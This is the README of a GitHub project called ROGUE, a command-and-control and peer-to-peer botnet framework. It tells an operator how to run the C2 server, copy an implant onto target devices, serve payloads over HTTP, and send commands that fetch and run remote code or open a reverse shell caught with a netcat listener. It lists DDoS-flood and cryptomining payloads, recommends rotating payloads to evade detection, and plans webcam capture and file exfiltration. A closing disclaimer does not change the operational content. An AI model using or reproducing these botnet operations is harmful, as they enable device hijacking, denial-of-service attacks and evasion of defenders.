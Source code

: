 # r0gue

ROGUE is a private, manually-deployed peer-to-peer and command-and-control (C2) botnet framework built for secure multi-device orchestration. It supports encrypted communication using AES, with optional peer-to-peer fallback if the primary C2 is unreachable. 
ROGUE supports implants on Linux laptops, Raspberry Pi, Termux (Android), iOS environments.

## Installation

ROGUE is a private repository. To clone it via SSH, first ensure your SSH key is registered with your GitHub account. Then from your Kali system, run:

```bash
git clone git@github.com:your-username/rogue.git
cd rogue
```

## install dependencies manually:

```bash
sudo apt update
sudo apt install python3 python3-pip
pip3 install pycryptodome
```

## File Structure

- `rogue_c2.py` – Encrypted command-and-control server
- `rogue_implant.py` – Bot implant for manual deployment
- `payloads/` – Folder containing optional executable payload modules (e.g. `ddos.py`, `mine.py`)

## Usage

To start the command-and-control server on Kali:

```bash
python3 rogue_c2.py
```

To convert a device into a bot, copy `rogue_implant.py` to the target device, edit the `C2_HOST` variable in the script to point to your C2’s IP address, and run:

```bash
python3 rogue_implant.py
```

The bot will persistently attempt to reconnect. If the C2 becomes unreachable, it will use peer-to-peer logic to scan for other known ROGUE bots on the network.

To serve payloads to bots, navigate into the `payloads/` folder on the C2 system and run:

```bash
python3 -m http.server 8000
```

## Sending Commands

Once bots are connected to the C2, you may issue commands using the terminal interface. Example commands include:

```text
load_payload mine.py        # Instruct bot to fetch payload from your hosted server
run_payload mine.py         # Execute fetched payload
reverse_shell               # Open reverse shell (C2 must be listening on port 9001)
```

To listen for a reverse shell from a bot:

```bash
nc -lvnp 9001
```

## Maintaining Bots

Rogue bots must have stable access to Python3 and network connectivity. You are responsible for copying the implant to each device. To maintain operational control:
- Keep your C2 running and listening for new connections
- Keep the payload server online (e.g. using Python's built-in HTTP server)
- Periodically rotate or update payload scripts to improve functionality or evade detection

## Payload Examples

- `mine.py`: Simulates lightweight CPU-based cryptocurrency mining by continuously hashing
- `ddos.py`: Launches a multi-threaded HTTP flood attack on a given IP/port 
- Future payloads may include webcam capture, file exfiltration, etc...

## Disclaimer

Do not deploy ROGUE on any device, network, or system that you do not own or have explicit permission to operate on. Misuse of this tool may violate local, state, or federal laws. The developers assume no liability and provide this software without warranty or support.


